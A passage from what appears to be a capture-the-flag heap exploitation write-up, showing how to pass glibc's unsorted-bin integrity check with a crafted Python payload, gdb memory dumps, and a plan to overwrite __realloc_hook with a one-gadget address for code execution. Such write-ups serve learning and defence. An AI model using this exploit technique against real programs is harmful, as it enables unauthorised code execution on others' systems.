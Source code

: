 The state of our unsorted bin right now is so messed up though that if we free the `namePtr` chunk again in its current state, it will fail a check and trigger a "corrupted unsorted chunks" error. 

*From malloc.c:*
{% highlight C %}
 bck = unsorted_chunks(av);
  fwd = bck->fd;
  if (__glibc_unlikely (fwd->bk != bck))
{
  errstr = "free(): corrupted unsorted chunks";
  goto errout;
}
{% endhighlight %}

If we look at the current state of our heap, we can see why we won't pass this check. 
{% highlight bash %}
bins = {0x603090, 0x602033, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b88 <main_arena+104>, 0x7ffff7dd1b98 <main_arena+120>, 

gdb-peda$ x/32xg 0x603090
0x603090:       0x4949494949494949      0x0000000000000071
0x6030a0:       0x00007ffff7dd1aed      0x4949494949494949 <--fails check!
0x6030b0:       0x4949494949494949      0x4949494949494949
0x6030c0:       0x4949494949494949      0x4949494949494949
0x6030d0:       0x4949494949494949      0x4949494949494949
0x6030e0:       0x4949494949494949      0x4949494949494949
0x6030f0:       0x4949494949494949      0x4949494949494949
0x603100:       0x0049494949494949      0x0000000000000031
{% endhighlight %}

`fwd` is currently `0x603090` and it will compare `fwd+0x18`, or `0x4949494949494949` to `0x00007ffff7dd1b78`, and if they are not equal, it will trigger a corrupted unsorted chunk error. 

Therefore, to pass this check, we will write the following payload to `0x6030a0`. 
{% highlight python %}
payload  = "J"*8
payload += p64(unsortedbin) # to pass unsorted bin check!
payload += "J"*(0x67-0x10) 
changeEmail(payload) # place target at head of fastbin 
{% endhighlight %}

{% highlight bash %}
gdb-peda$ x/32xg 0x603090
0x603090:       0x4949494949494949      0x0000000000000071
0x6030a0:       0x4a4a4a4a4a4a4a4a      0x00007ffff7dd1b78 <--passes check!
0x6030b0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030c0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030d0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030e0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x6030f0:       0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x603100:       0x004a4a4a4a4a4a4a      0x0000000000000031
{% endhighlight %}

Now that we can successfully free the `namePtr` chunk, we can allocate another fast chunk and control the data in it to overwrite `__realloc_hook` with our **"magic" one gadget RCE** addr.
